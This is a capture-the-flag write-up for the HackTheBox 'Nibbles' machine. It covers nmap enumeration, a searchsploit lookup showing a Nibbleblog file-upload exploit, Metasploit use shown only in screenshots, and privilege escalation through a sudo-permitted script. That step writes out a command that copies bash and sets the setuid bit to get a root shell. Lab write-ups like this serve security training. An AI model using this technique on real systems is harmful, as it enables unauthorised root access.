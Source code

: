 ```yaml
---
title: "HackTheBox - Nibbles"
author: Nasrallah
description: ""
date: 2022-08-27 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo, cve, metasploit]
img_path: /assets/img/hackthebox/machines/nibbles
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Nibbles](https://app.hackthebox.com/machines/Nibbles) from [HackTheBox](https://www.hackthebox.com). The target is running a vulnerable service allowing us to get foothold. Exploit sudo permission gives root.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.75
Host is up (0.49s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There a webserver on port 80.

### Web

Navigate the the website.

![](1.png)

Let's view the source code with `ctrl + u`.

![](2.png)

Found **/nibbleblog/ directory** directory.

![](3.png)

This is **Nibbleblog**, let's see if there is any exploit available for this service.

```terminal
$ searchsploit nibbleblog                                      
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                                                     | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                                      | php/remote/38489.rb
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Great! There is arbitrary file upload vulnerability on metasploit.

## **Foothold**

Fire up metasploit and use the exploit.

![](4.png)

After setting up the required options, let's start the exploit.

![](5.png)

## **Privilege Escalation**

Let's check our privileges.

![](6.png)

We can run the script `monitor.sh` as root without any password.

I first created the `personal/stuff` directories with the command `mkdir -p dir1/dir2`.

then put the command `cp /bin/bash /tmp/bash && chmod +s /tmp/bash` in monitor.sh script. give is execute permission and the run it.

![](7.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
